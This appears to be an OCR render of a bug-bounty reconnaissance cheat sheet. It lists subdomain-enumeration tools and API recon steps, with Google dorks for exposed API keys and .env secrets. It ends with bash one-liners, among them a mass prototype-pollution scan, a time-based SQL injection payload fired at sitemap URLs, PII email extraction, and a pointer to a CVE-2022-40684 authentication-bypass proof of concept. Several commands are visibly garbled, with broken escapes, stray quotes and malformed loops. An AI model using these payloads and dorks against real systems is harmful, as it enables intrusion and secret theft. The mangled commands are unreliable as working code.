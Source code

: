 # Reconnaissance

## Subdomain Enumeration

> **Tools**

* https://github.com/h0tak88r/AutoSubRecon
* [https://github.com/h0tak88r/reconraptor](https://github.com/h0tak88r/reconraptor)
* [https://github.com/h0tak88r/subfalcon](https://github.com/h0tak88r/subfalcon)
* https://github.com/h0tak88r/submonit88r
* https://github.com/bing0o/SubEnum
* https://github.com/shmilylty/OneForAll

> **Write ups**

* https://h0tak88r.medium.com/mastering-subdomain-enumeration-6c84571b07b
* [#subdomain-enumeration](./#subdomain-enumeration "mention")

## API Recon

1. Check for documentation
   * Swagger -> `/openapi.json`
   * GraphQL -> https://graphql.org/learn/introspection/ -> https://github.com/prisma-labs/get-graphql-schema
   * manual -> `site:target.tld intitle:api | developer`
2. Search for APIs
   * `site:target.tld inurl:api`
   * `intitle:"index of" "api.yaml" site:target.tld`
   * `intitle:"index of" intext:"apikey.txt" site:target.tld`
   * `allintext:"API_SECRET*" ext:env | ext:yml site:target.tld`
3. Enumerate endpoints / methods
   * https://wordlists-cdn.assetnote.io/data/automated/httparchive\_apiroutes\_2023\_08\_28.txt
   * swagger -> https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/swagger.txt
   * Tools -> [ffuf](https://github.com/ffuf/ffuf#post-data-fuzzing) -> [kiterunner](https://github.com/assetnote/kiterunner)

## One-liners & Quick Wins

```bash
# Grep emails and other PII Data from URLs file
grep -E -o '\\\\\\\\b[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\\\\\\\\.[a-zA-Z]{2,}\\\\\\\\b' urls.txt

#Extract Endpoints from JavaScript
cat FILE.js | grep -oh "\\\\\\\\"\\\\\\\\/[a-zA-Z0-9_/?=&]&\\\\\\\\""| sed -e 's/^"//' -e 's/"$//' | sort -u

#Get CIDR & Org Information from Target Lists
for HOST in $(cat HOSTS.txt); do echo (for ip in $(dig a $HOST +short); do whois $ip | grep -e "CIDR\\\\\\\\|Organization" | tr -s " | paste -; done | uniq); done
"
#Prototype Pollution
subfinder -d HOST -all -silent ❘ httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\\\\\\\\/?_proto_[testparam]=exploit\\\\\\\\//' FILE.txt | page- fetch -j 'window.testparam == "exploit"? "[VULNERABLE]": "[NOT VULNERABLE]" | sed "s/(//g" sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
'
# Sitemap SQL Injection
cat urls.txt | httpx -silent -path 'sitemap.xml?offset=1%3bSELECT%20IF((8303%3E8302)%2cSLEEP(10)%2c2356)%23' -rt -timeout 20 -mrt '>10'

# Authentication Bypass (CVE-2022-40684) POC --> <https://twitter.com/h4x0r_dz/status/1580648642750296064/photo/1>
```